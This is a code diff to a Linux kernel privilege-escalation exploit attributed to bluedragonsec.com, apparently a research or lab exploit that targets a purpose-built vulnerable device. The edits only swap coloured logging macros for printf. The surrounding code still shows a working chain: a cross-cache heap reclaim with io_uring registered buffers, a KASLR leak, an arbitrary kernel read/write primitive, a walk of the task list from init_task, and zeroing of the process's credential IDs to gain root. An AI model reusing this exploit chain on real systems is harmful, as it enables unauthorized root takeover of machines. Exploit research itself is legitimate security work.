

antonius - bluedragonsec.com

Changed region(s): [[0.0, 0.0, 1.0, 0.9871]]

diff --git a/elastic_objects/cross_cache_elastic_imu_deterministic/exploit/exploit.c b/elastic_objects/cross_cache_elastic_imu_deterministic/exploit/exploit.c
@@ -77,11 +77,11 @@ static int resolve_all_symbols(void) {
 		sym_page_offset_base = 0xffffffff82f9f6a8UL;
 		sym_phys_base = 0xffffffff8384c010UL;
 	}
-	info("[+] _text            = 0x%lx", sym_text);
-	info("[+] io_release_ubuf  = 0x%lx (off 0x%lx)", sym_io_release_ubuf, sym_io_release_ubuf - sym_text);
-	info("[+] init_task        = 0x%lx (off 0x%lx)", sym_init_task, sym_init_task - sym_text);
-	info("[+] page_offset_base = 0x%lx (off 0x%lx)", sym_page_offset_base, sym_page_offset_base - sym_text);
-	info("[+] phys_base        = 0x%lx (off 0x%lx)", sym_phys_base, sym_phys_base - sym_text);
+	printf("[+] _text            = 0x%lx\n", sym_text);
+	printf("[+] io_release_ubuf  = 0x%lx (off 0x%lx)\n", sym_io_release_ubuf, sym_io_release_ubuf - sym_text);
+	printf("[+] init_task        = 0x%lx (off 0x%lx)\n", sym_init_task, sym_init_task - sym_text);
+	printf("[+] page_offset_base = 0x%lx (off 0x%lx)\n", sym_page_offset_base, sym_page_offset_base - sym_text);
+	printf("[+] phys_base        = 0x%lx (off 0x%lx)\n", sym_phys_base, sym_phys_base - sym_text);
 
 	return 0;
 }
@@ -341,12 +341,12 @@ static void detect_ram_ranges(void) {
 	g_max_phys = g_total_ram + (1UL << 32);
 	if (g_ranges_top > g_max_phys)
 		g_max_phys = g_ranges_top;
-	info("[!] Physical RAM ranges (%d):", n_ram_ranges);
+	printf("[!] Physical RAM ranges (%d):\n", n_ram_ranges);
 	for (i = 0; i < n_ram_ranges; i++)
-		info("[%d] 0x%lx - 0x%lx (%lu MB)", i,
+		printf("[%d] 0x%lx - 0x%lx (%lu MB)\n", i,
 		     ram_ranges[i].start, ram_ranges[i].end,
 		     (ram_ranges[i].end - ram_ranges[i].start) >> 20);
-	info("[!] ranges_top = 0x%lx  max_phys = 0x%lx", g_ranges_top, g_max_phys);
+	printf("[!] ranges_top = 0x%lx  max_phys = 0x%lx\n", g_ranges_top, g_max_phys);
 }
 
 static int is_phys_valid(uint64_t phys) {
@@ -385,7 +385,7 @@ static int scan_phys_base(void) {
 	uint64_t n_tried = 0, n_skipped = 0;
 	char comm[16] = {0};
 
-	info("[!] Scanning phys_base: 0..0x%lx (step 2MB, up to %lu candidates)...",
+	printf("[!] Scanning phys_base: 0..0x%lx (step 2MB, up to %lu candidates)...\n",
 	     g_max_phys - PHYSICAL_START, (g_max_phys - PHYSICAL_START) / PHYS_BASE_STEP);
 	for (A = PHYSICAL_START; A < g_max_phys; A += PHYS_BASE_STEP) {
 		P = A - PHYSICAL_START;
@@ -405,19 +405,18 @@ static int scan_phys_base(void) {
 			continue;
 		g_phys_base = P;
 		g_page_offset = pob;
-		ok("[+] _text phys = 0x%lx (tried %lu, skipped %lu holes)", A, n_tried, n_skipped);
-		ok("[+] phys_base  = 0x%lx", P);
-		ok("[+] PAGE_OFFSET = 0x%lx", pob);
+		printf("[+] _text phys = 0x%lx (tried %lu, skipped %lu holes)\n", A, n_tried, n_skipped);
+		printf("[+] phys_base  = 0x%lx\n", P);
+		printf("[+] PAGE_OFFSET = 0x%lx\n", pob);
 		if (aarw_read(it_vaddr + ki.comm_offset, comm, 9) < 0 || memcmp(comm, "swapper/0", 9) != 0) {
-			err("[-] verification failed: init_task.comm mismatch");
+			printf("[-] verification failed: init_task.comm mismatch\n");
 			g_phys_base = 0;
 			g_page_offset = 0;
 			return -1;
 		}
-		ok("[+] verified: init_task.comm=\"swapper/0\" " C_GRN "-" C_RST);
 		return 0;
 	}
-	err("[-] phys_base scan failed (tried %lu, skipped %lu)", n_tried, n_skipped);
+	printf("[-] phys_base scan failed (tried %lu, skipped %lu)\n", n_tried, n_skipped);
 
 	return -1;
 }
@@ -443,27 +442,27 @@ int main(void) {
 	uint32_t v;
 
 	pin0();
-	info("[*] Cross-cache (ktranowl) io_mapped_ubuf AARW -> Data-Only LPE");
-	info("[*] Linux kernel 7.0 - KASLR ON, kptr_restrict 2");
-	info("[*] Vehicle: io_mapped_ubuf (%d + %d×16 = %d -> kmalloc-1k)", IMU_BASE, 32, IMU_BASE + 32 * 16);
+	printf("[*] Cross-cache (ktranowl) io_mapped_ubuf AARW -> Data-Only LPE\n");
+	printf("[*] Linux kernel 7.0 - KASLR ON, kptr_restrict 2\n");
+	printf("[*] Vehicle: io_mapped_ubuf\n");
 	/* System.map */
 	if (resolve_all_symbols() < 0) 
 		return 1;
 	sysinfo(&si);
 	g_total_ram = (uint64_t)si.totalram * si.mem_unit;
-	info("[!] total RAM = %lu MB (0x%lx)", (unsigned long)(g_total_ram >> 20), g_total_ram);
+	printf("[!] total RAM = %lu MB (0x%lx)\n", (unsigned long)(g_total_ram >> 20), g_total_ram);
 	getrlimit(RLIMIT_MEMLOCK, &rl);
 	rl.rlim_cur = 1024UL * 1024 * 1024; /* 1GB for 400 buffers */
 	if (rl.rlim_max < rl.rlim_cur) 
 		rl.rlim_max = rl.rlim_cur;
 	setrlimit(RLIMIT_MEMLOCK, &rl);
 	getrlimit(RLIMIT_MEMLOCK, &rl);
-	info("[!] RLIMIT_MEMLOCK cur=%luMB max=%luMB (need %luMB for %d bufs)",
+	printf("[!] RLIMIT_MEMLOCK cur=%luMB max=%luMB (need %luMB for %d bufs)\n",
 	     (unsigned long)(rl.rlim_cur>>20), (unsigned long)(rl.rlim_max>>20),
 	     (unsigned long)((uint64_t)SPRAY_COUNT*PAGES_PER_BUF*4096>>20), SPRAY_COUNT);
 	cpu_mask = 1UL;
 	if (syscall(__NR_sched_setaffinity, 0, sizeof(cpu_mask), &cpu_mask) < 0)
-		warn("[-] sched_setaffinity");
+		printf("[-] sched_setaffinity\n");
 	dev_fd = open("/dev/imu_aarw", O_RDWR);
 	if (dev_fd < 0) { 
 		perror("[-] error ! open /dev/imu_aarw"); 
@@ -479,15 +478,15 @@ int main(void) {
 		perror("SA_KERN_INFO"); 
 		return 1; 
 	}
-	ok("[+] tasks=0x%x pid=0x%x cred=0x%x comm=0x%x uid=0x%x", ki.tasks_offset, ki.pid_offset, ki.cred_offset, ki.comm_offset, ki.uid_offset);
-	ok("[+] sizeof(struct page) = %u", ki.page_struct_size);
+	printf("[+] tasks=0x%x pid=0x%x cred=0x%x comm=0x%x uid=0x%x\n", ki.tasks_offset, ki.pid_offset, ki.cred_offset, ki.comm_offset, ki.uid_offset);
+	printf("[+] sizeof(struct page) = %u\n", ki.page_struct_size);
 	g_sizeof_page = ki.page_struct_size;
 	puts("[*] ktranowl cross-cache -> io_uring Reclaim");
 	setup_uring();
 	for (i = 0; i < SPRAY_COUNT; i++) {
 		spray_bufs[i] = mmap(NULL, BUF_BYTES, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
 		if (spray_bufs[i] == MAP_FAILED) { 
-			err("[-] mmap"); 
+			printf("[-] mmap\n"); 
 			return 1; 
 		}
 		madvise(spray_bufs[i], BUF_BYTES, MADV_NOHUGEPAGE);
@@ -496,7 +495,7 @@ int main(void) {
 		spray_iovs[i].iov_len = BUF_BYTES;
 	}
 	/* ktranowl 6-pool alloc in dedicated victim cache */
-	info("[*] ktranowl: defrag=%ld partial=%ld barn=%ld pre=%d V=1 post=%d flush=%ld total=%ld", DEFRAG_N,PARTIAL_N,BARN_N,PRE_N,POST_N,FLUSH_N,(long)NGROOM);
+	printf("[*] ktranowl: defrag=%ld partial=%ld barn=%ld pre=%d V=1 post=%d flush=%ld total=%ld\n", DEFRAG_N,PARTIAL_N,BARN_N,PRE_N,POST_N,FLUSH_N,(long)NGROOM);
 	for(_i = 0;_i < DEFRAG_N;_i++) 
 		sa_alloc(GR_DEFRAG+_i);
 	for(_i = 0;_i < PARTIAL_N;_i++) 
@@ -510,9 +509,9 @@ int main(void) {
 	  	sa_alloc(GR_POST+_i);
 	for(_i = 0;_i < FLUSH_N;_i++) 
 	  	sa_alloc(GR_FLUSH+_i);
-	ok("[*] Allocated %ld objects in victim cache", (long)NGROOM);
+	printf("[*] Allocated %ld objects in victim cache\n", (long)NGROOM);
 	/* ktranowl free: partial -> barn -> sandwich -> flush */
-	info("[*] Free: partial -> barn -> sandwich -> flush ");
+	printf("[*] Free: partial -> barn -> sandwich -> flush\n");
 	for(_i = 0;_i < PARTIAL_N;_i++) 
 		sa_free(GR_PARTIAL+_i);
 	for(_i = 0;_i < BARN_N;_i++) 
@@ -525,50 +524,50 @@ int main(void) {
 	for(_i = 0;_i < FLUSH_N;_i++) 
 	  	sa_free(GR_FLUSH+_i);
 	usleep(50000);
-	ok("[+] Victim slabs discarded -> buddy");
+	printf("[+] return to buddy\n");
 	/* io_uring register buffers → io_mapped_ubuf reclaims from buddy */
 	if (io_uring_register(ring_fd, IORING_REGISTER_BUFFERS, spray_iovs, SPRAY_COUNT) < 0) {
 		perror("IORING_REGISTER_BUFFERS"); return 1;
 	}
-	ok("[+] io_uring registered %d buffers", SPRAY_COUNT);
+	printf("[+] io_uring registered %d buffers\n", SPRAY_COUNT);
 	/* Check reclaim: PEEK GR_VICTIM, should see io_mapped_ubuf data */
 	sa_peek(GR_VICTIM, buf, OBJ_SIZE);
 	pu = *(uint64_t *)&buf[OFF_UBUF];
 	pn = *(uint32_t *)&buf[OFF_NR_BVECS];
 	if (pu >= 0x800000000000ULL || pn != PAGES_PER_BUF) {
-		err("[-] Cross-cache reclaim failed (ubuf=0x%lx nr_bvecs=%u)", (unsigned long)pu, pn);
+		printf("[-] Cross-cache reclaim failed (ubuf=0x%lx nr_bvecs=%u)\n", (unsigned long)pu, pn);
 		goto cleanup;
 	}
-	ok("[+] Cross cache reclaimed !");
+	printf("[+] Cross cache reclaimed !\n");
 	uaf_slot = GR_VICTIM;
 	sa_peek(uaf_slot, buf, OBJ_SIZE);
 	peek_release = *(uint64_t *)&buf[OFF_RELEASE];
 	peek_priv    = *(uint64_t *)&buf[OFF_PRIV];
 	peek_bv_page = *(uint64_t *)&buf[OFF_BV0_PAGE];
 	peek_ubuf    = *(uint64_t *)&buf[OFF_UBUF];
-	info("[!] release      = 0x%lx (.text)", peek_release);
-	info("[!] priv (ctx)   = 0x%lx (heap)", peek_priv);
-	info("[!] bvec[0].page = 0x%lx (vmemmap)", peek_bv_page);
+	printf("[!] release      = 0x%lx (.text)\n", peek_release);
+	printf("[!] priv (ctx)   = 0x%lx (heap)\n", peek_priv);
+	printf("[!] bvec[0].page = 0x%lx (vmemmap)\n", peek_bv_page);
 	g_kaslr_slide = peek_release - sym_io_release_ubuf;
 	g_text_base = sym_text + g_kaslr_slide;
 	if (g_kaslr_slide % 0x200000 != 0)
-		warn("[-] slide 0x%lx NOT 2MB aligned!", g_kaslr_slide);
-	ok("[+] KASLR slide    = 0x%lx", g_kaslr_slide);
-	ok("[+] _text runtime  = 0x%lx", g_text_base);
+		printf("[-] slide 0x%lx not 2MB aligned!\n", g_kaslr_slide);
+	printf("[+] KASLR slide    = 0x%lx\n", g_kaslr_slide);
+	printf("[+] _text runtime  = 0x%lx\n", g_text_base);
 	g_vmemmap = peek_bv_page & ~(PUD_SIZE - 1);
-	ok("[+] vmemmap_base   = 0x%lx", g_vmemmap);
+	printf("[+] vmemmap_base   = 0x%lx\n", g_vmemmap);
 	orig_bv_page = peek_bv_page;
 	orig_bv_len  = *(uint32_t *)&buf[OFF_BV0_LEN];
 	orig_bv_off  = *(uint32_t *)&buf[OFF_BV0_OFF];
 	for (i = 0; i < SPRAY_COUNT; i++) {
 		if (peek_ubuf == (uint64_t)spray_bufs[i]) {
 			reclaim_idx = i; reclaim_ubuf = peek_ubuf;
-			ok("[!] Buffer index=%d", (int)i);
+			printf("[!] Buffer index=%d\n", (int)i);
 			break;
 		}
 	}
 	if (reclaim_idx < 0) { 
-		err("[-] buffer match failed"); 
+		printf("[-] buffer match failed\n"); 
 		goto cleanup; 
 	}
 	detect_ram_ranges();
@@ -576,14 +575,14 @@ int main(void) {
 		goto cleanup;
 	/* Cross-validate */
 	if (peek_priv >= g_page_offset && peek_priv < g_page_offset + g_total_ram)
-		ok("[+] Cross-validate: priv in direct-map range " C_GRN "-" C_RST);
+		printf("[+] Cross-validate: priv in direct-map range\n");
 	g_init_task = sym_init_task + g_kaslr_slide;
-	ok("[+] init_task = 0x%lx", g_init_task);
+	printf("[+] init_task = 0x%lx\n", g_init_task);
 	/*
 	https://bluedragonsec.com/page/writing/id/12
 	*/
 	task_addr = g_init_task;
-	info("[+] Walking from init_task, target PID=%d", my_pid);
+	printf("[+] Walking from init_task, target PID=%d\n", my_pid);
 	while (hop++ < 512) {
 		pid = 0; 
 		cred = 0;
@@ -592,14 +591,14 @@ int main(void) {
 		if (aarw_read(task_addr + ki.pid_offset, &pid, 4) < 0 ||
 		    aarw_read(task_addr + ki.cred_offset, &cred, 8) < 0 ||
 		    aarw_read(task_addr + ki.tasks_offset, &tasks_next, 8) < 0) {
-			err("[-] aarw read failed - hop=%d", hop); goto cleanup;
+			printf("[-] aarw read failed - hop=%d\n", hop); goto cleanup;
 		}
 		aarw_read(task_addr + ki.comm_offset, comm, 16);
 		comm[15] = '\0';
 		if (hop <= 5 || pid == my_pid)
-			info("[!] hop=%d pid=%d comm=\"%s\"", hop, pid, comm);
+			printf("[!] hop=%d pid=%d comm=\"%s\"\n", hop, pid, comm);
 		if (pid == my_pid) {
-			ok("[*] found ! cred=0x%lx", cred);
+			printf("[*] found ! cred=0x%lx\n", cred);
 			cred_addr = cred; found = 1; break;
 		}
 		next = tasks_next - ki.tasks_offset;
@@ -608,14 +607,14 @@ int main(void) {
 		task_addr = next;
 	}
 	if (!found) { 
-		err("[-] pid not found"); 
+		printf("[-] pid not found\n"); 
 		goto cleanup; 
 	}
 	aarw_read(cred_addr + ki.uid_offset, cred_data, 32);
 	for (wisdom = 0; wisdom < ki.id_count && wisdom < 8; wisdom++)
-		info("[!] %s = %u", ids[wisdom], *(uint32_t *)&cred_data[wisdom * 4]);
+		printf("[!] %s = %u\n", ids[wisdom], *(uint32_t *)&cred_data[wisdom * 4]);
 	if (aarw_write(cred_addr + ki.uid_offset, zeros, ki.id_count * 4) < 0) {
-		err("[-] aarw - write failed"); 
+		printf("[-] aarw - write failed\n"); 
 		goto cleanup;
 	}
 	aarw_read(cred_addr + ki.uid_offset, cred_data, 32);
@@ -626,11 +625,11 @@ int main(void) {
 			all_zero = 0;
 	}
 	if (!all_zero || getuid() != 0) { 
-		err("[!] Cred overwrite failed"); 
+		printf("[!] Cred overwrite failed\n"); 
 		goto cleanup; 
 	}
 	restore_bvec();
-	printf(C_GRN "[+] uid=%d euid=%d\n" C_RST, getuid(), geteuid());
+	printf("[+] uid=%d euid=%d\n", getuid(), geteuid());
 	close(dev_fd); 
 	close(aarw_pipe[0]); 
 	close(aarw_pipe[1]);

diff --git a/elastic_objects/same_cache_elastic_imu/exploit/params_vars.h b/elastic_objects/same_cache_elastic_imu/exploit/params_vars.h
@@ -5,10 +5,10 @@
 #define C_YEL "\033[1;33m"
 #define C_BLU "\033[1;34m"
 #define C_MAG "\033[1;35m"
-#define OK(fmt, ...)   printf(C_GRN "[+] " C_RST fmt "\n", ##__VA_ARGS__)
-#define INFO(fmt, ...) printf(C_BLU "[*] " C_RST fmt "\n", ##__VA_ARGS__)
-#define WARN(fmt, ...) printf(C_YEL "[!] " C_RST fmt "\n", ##__VA_ARGS__)
-#define ERR(fmt, ...)  printf(C_RED "[-] " C_RST fmt "\n", ##__VA_ARGS__)
+#define OK(fmt, ...)   printf(C_GRN fmt "\n", ##__VA_ARGS__)
+#define INFO(fmt, ...) printf(C_BLU fmt "\n", ##__VA_ARGS__)
+#define WARN(fmt, ...) printf(C_YEL fmt "\n", ##__VA_ARGS__)
+#define ERR(fmt, ...)  printf(C_RED fmt "\n", ##__VA_ARGS__)
 struct sa_req {
 	int      slot;
 	uint32_t len;

diff --git a/elastic_objects/cross_cache_elastic_imu_deterministic/exploit/params_vars.h b/elastic_objects/cross_cache_elastic_imu_deterministic/exploit/params_vars.h
@@ -1,13 +1,3 @@
-#define C_RST "\033[0m"
-#define C_RED "\033[1;31m"
-#define C_GRN "\033[1;32m"
-#define C_YEL "\033[1;33m"
-#define C_BLU "\033[1;34m"
-#define C_MAG "\033[1;35m"
-#define ok(fmt, ...)   printf(C_RST fmt "\n", ##__VA_ARGS__)
-#define info(fmt, ...) printf(C_RST fmt "\n", ##__VA_ARGS__)
-#define warn(fmt, ...) printf(C_RST fmt "\n", ##__VA_ARGS__)
-#define err(fmt, ...)  printf(C_RST fmt "\n", ##__VA_ARGS__)
 struct sa_req {
 	int      slot;
 	uint32_t len;
